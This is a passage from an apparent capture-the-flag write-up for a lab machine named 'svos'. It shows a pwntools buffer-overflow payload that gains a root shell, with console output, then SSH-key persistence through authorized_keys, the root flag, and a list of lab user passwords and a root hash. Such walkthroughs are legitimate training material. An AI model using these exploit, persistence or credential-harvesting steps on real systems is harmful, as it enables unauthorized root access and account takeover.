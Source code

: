 ```python
payload  = b""
payload += b"A"*24
payload += p64(0xcafebabe)

p.sendline(payload)

p.interactive()
```

So I've uploaded it on the box, installed pwntools on remote and got a shell as root.
```bash
nueve@svos:~$ ./script.py 
[+] Starting local process './orangutan': pid 2766
[*] Switching to interactive mode
hello pwner 
pwnme if u can ;) 
$ id
uid=0(root) gid=0(root) groups=0(root),1009(nueve)
```

In order to get redundancy I've generated a new set of keys `ssh-keygen -t rsa -b 4096` and added the public key to `authorized_keys`. The root flag is: `flag10{33c9661bfd}`

```bash
root@svos:~# id; hostname; wc -c root.txt 
uid=0(root) gid=0(root) groups=0(root)
svos
200 root.txt
```

# Credentials
- uno:luc10r4m0n
- dos:4b3l4rd0fru705
- tres:r4f43l71n4j3r0
- cuatro:p3dr00l1v4r3z
- cinco:ruy70m35
- seis:Hogwarts
- siete:6u1l3rm0p3n473
- ocho:m0d3570v1ll454n4
- nueve:355u4z4rc0
- root:$6$CCeUHJlY$0ClpmtE5GMymUVUNpJCIFtlVW4XjqHLX2BXeQoKs0VFSzZBREW6rlQmG4YSzlvb4i47OtX3vZkzk2p5HIcvpS1 (uncracked)
